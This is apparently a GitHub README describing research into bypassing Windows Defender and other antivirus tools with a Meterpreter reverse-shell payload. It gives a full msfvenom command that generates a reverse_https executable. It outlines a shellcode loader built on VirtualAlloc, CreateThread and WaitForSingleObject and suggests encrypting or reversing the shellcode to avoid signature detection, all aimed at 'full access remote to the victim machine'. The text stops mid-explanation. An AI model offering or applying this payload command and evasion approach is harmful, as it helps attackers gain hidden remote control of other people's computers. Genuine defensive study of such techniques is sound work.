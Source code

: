 # Windows Security Evasion, for research porpose

Malicious software that is running a reverse shell, to get full access remote to the victim machine and this software can easily bypass windows security / windows defender and others AV's, up to now (05/05/2022).


# Anti-Virus Evasion Research

I wanted to bypass the Windows Security Virus &amp; Threat Protection with some meterpreter malware that gives me access of the victim shell, so with I could get a reverse shell.

So I tried the vanilla version of the meterpreter that you can easily forge from msfvenom:

```msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=4444 -f exe -o test_exploit.exe```

With that I uploaded this piece of software that is executable for windows and it contains our malware vanilla (PE32+ executable (GUI) x86-64, for MS Windows). 

![](https://github.com/xbeatzsec/windows-security-evasion/blob/main/not_clean_vanilla.png)

As you can see it has been detected as a malware in 19 differents anti-virus, but this is not too good, because even a vanilla version of a malware can bypass or can be undetected in some anti-virus softwares in the market.

But our target (Windows Defewnder) detected it as a &quot;Trojan:Win64/Meterpreter.D&quot;, so we can play around with our payload and try to bypass, this is my mission during this research.

So in msfvenom we could create a exe file to run in windows system, but also we can create a payload from that software to create a shellcode containing the malware that we want to run in the victim system with windows defender running.

Shellcodes are pieces of machine code designed to run local or remote system shell (hence the name). They are mainly used during exploitation of software vulnerabilities - when an attacker is able to control program&#39;s execution flow he needs some universal payload to execute desired action (usually shell access). This applies to both local exploitation (e.g. for privilege escalation) and remote exploitation (for gaining RCE on a server).

But first let&#39;s use Win32 API that is built into Windows, and that is an application programmig interface written in C by Microsoft to allow access to Windows features.

It is used for malware development so we will use it too.

And why we should use it?

- It is built into Windows so functionallity doesn&#39;t have to be re-written´
- It doesn&#39;t get flagged by AV
- It is fast and usually well documented

We will use it first to run our shellcode, so with that we will start with VirtualAllloc to create a executable piece of memory, then we CreateThread to execute the shellcode in memory, and finally WaitForSingleObject to not crash upon receiving a command.

![](https://github.com/xbeatzsec/windows-security-evasion/blob/main/after_compile_1st.png)

After we compiled the file we got this result on the image above, we could bypass some of antivirus on the list but our windows defender still detecting our malware, so let&#39;s play around with our shellcode to maybe bypass it, we can encrypt our shellcode, we can reverse our byte array (shellcode). We do it now because we know that our Win32API aren&#39;t getting flagged by signature checks.
